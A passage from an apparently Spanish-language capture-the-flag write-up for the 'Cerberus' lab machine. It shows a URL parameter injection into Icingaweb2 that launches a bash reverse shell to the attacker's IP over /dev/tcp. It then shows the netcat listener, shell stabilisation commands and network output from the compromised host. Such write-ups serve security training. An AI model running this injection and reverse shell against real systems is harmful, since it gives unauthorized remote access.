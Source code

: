 ![id](/assets/writeups/cerberus/5.png)

Vamos a lanzarnos una reverse shell introduciendo lo siguiente en la URL

`http://icinga.cerberus.local:8080/icingaweb2/config/modules#!/icingaweb2/config/module?name=shm&a=bash -c "bash -i >%26 /dev/tcp/10.10.16.59/443 0>%261"`

```bash
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.205 49800
bash: cannot set terminal process group (629): Inappropriate ioctl for device
bash: no job control in this shell
www-data@icinga:/usr/share/icingaweb2/public$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@icinga:/usr/share/icingaweb2/public$ ^Z
[1]  + 3825 suspended  nc -lvnp 443
❯ stty raw -echo ;fg
[1]  + 3825 continued  nc -lvnp 443
                                   reset xterm
www-data@icinga:/usr/share/icingaweb2/public$ export TERM=xterm-256color
www-data@icinga:/usr/share/icingaweb2/public$ source /etc/skel/.bashrc
www-data@icinga:/usr/share/icingaweb2/public$ stty rows 36 columns 149
```

Esta máquina tiene asignada la dirección IPv4 `172.16.22.2` en la red virtual de lo que podemos asumir, es [Hyper-V](https://es.wikipedia.org/wiki/Hyper-V)

```bash
www-data@icinga:/$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:15:5d:5f:e8:01 brd ff:ff:ff:ff:ff:ff
    inet 172.16.22.2/28 brd 172.16.22.15 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::215:5dff:fe5f:e801/64 scope link 
       valid_lft forever preferred_lft forever
```
